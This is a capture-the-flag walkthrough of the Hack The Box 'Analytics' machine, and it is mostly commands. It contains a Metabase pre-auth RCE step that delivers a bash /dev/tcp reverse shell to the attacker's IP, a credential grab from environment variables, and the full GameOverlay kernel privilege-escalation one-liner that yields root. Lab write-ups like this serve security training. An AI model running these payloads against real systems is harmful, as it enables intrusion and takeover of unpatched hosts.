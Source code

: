 # 💎 HTB: Analytics

## 🔍 Phase 1: Scanning & Enumeration

```bash
ping <Analytics IP Address>                              # Confirm host is live (TTL hints Linux OS)
sudo nmap -T4 -A -p- <Analytics IP Address>              # Aggressive full-port scan
nano /etc/hosts                                          # Add domain mapping to access site
# Example entry:
# <Analytics IP Address> analytical.htb data.analytical.htb
```

> Discovered Metabase login at `http://data.analytical.htb`.

---

## 🚪 Phase 2: Exploitation & User Flag

### 🔍 Recon & CVE Identification

**CVE Used:** [CVE-2023-38646 - Metabase Pre-Auth RCE](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token by visiting:
http://data.analytical.htb/api/session/properties
```

### 📡 Reverse Shell Setup

```bash
sudo nc -nlvp 4444                                      # Start listener on attacker machine

# Run exploit (Python PoC):
python3 main.py -u http://data.analytical.htb -t <token> -c "bash -i >& /dev/tcp/<Your IP>/4444 0>&1"
```

> Gained reverse shell as `metabase`.

### 🔑 Horizontal Privilege Escalation

```bash
env                                                    # Check for credentials in environment variables
ssh metalytics@<Analytics IP Address>                  # SSH into 'metalytics' using found creds
```

### 🧾 User Flag

```bash
cat /home/metalytics/user.txt
```

> Submit the user flag!

---

## 🛠️ Phase 3: Persistence & Root Flag

### 🔍 Manual Enumeration

```bash
id                                                     # Check privileges
mkdir /opt/utkarshcodes                                # Check write access to /opt (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null   # SUID/GUID files
cat /proc/version                                      # Get OS version to identify kernel-level exploits
```

> Identified vulnerable kernel version: Ubuntu 22.04.2

### 💣 Exploitation

**CVE Used:**  
- [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)  
- [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
# Execute GameOverlay exploit (one-liner):
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> Root shell achieved via kernel exploit.

### 🔐 Root Flag

```bash
cat /root/root.txt
```